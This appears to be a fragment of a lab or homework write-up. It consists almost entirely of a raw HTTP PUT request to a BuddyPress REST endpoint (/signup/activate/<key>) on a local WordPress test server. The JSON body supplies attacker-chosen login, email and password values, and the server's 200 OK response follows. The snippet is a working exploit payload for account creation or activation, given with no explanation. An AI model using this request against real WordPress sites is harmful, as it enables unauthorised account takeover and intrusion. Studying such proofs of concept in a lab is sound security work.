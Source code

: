 ![1747885790638](image/homework/1747885790638.png)

```
PUT /wp-json/buddypress/v1/signup/activate/aoM0svmO72kVVPbNxYadAKifjIUuYqj8 HTTP/1.1

Host:192.168.20.12:10459

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36 Edg/136.0.0.0

Accept: */*

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Content-Type: application/json; charset=UTF-8

Content-Length: 112



{"user_login": "attcker1", "user_email": "attacker1@163.com", "user_name": "attacker1", "password": "attacker1"}
```

```
HTTP/1.1 200 OK

Date: Thu, 22 May 2025 03:49:29 GMT

Server: Apache/2.4.18 (Ubuntu)

X-Robots-Tag: noindex

Link: <http://192.168.20.12:10459/wp-json/>; rel="https://api.w.org/"

X-Content-Type-Options: nosniff

Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages, Link

Access-Control-Allow-Headers: Authorization, X-WP-Nonce, Content-Disposition, Content-MD5, Content-Type

Content-Length: 280
```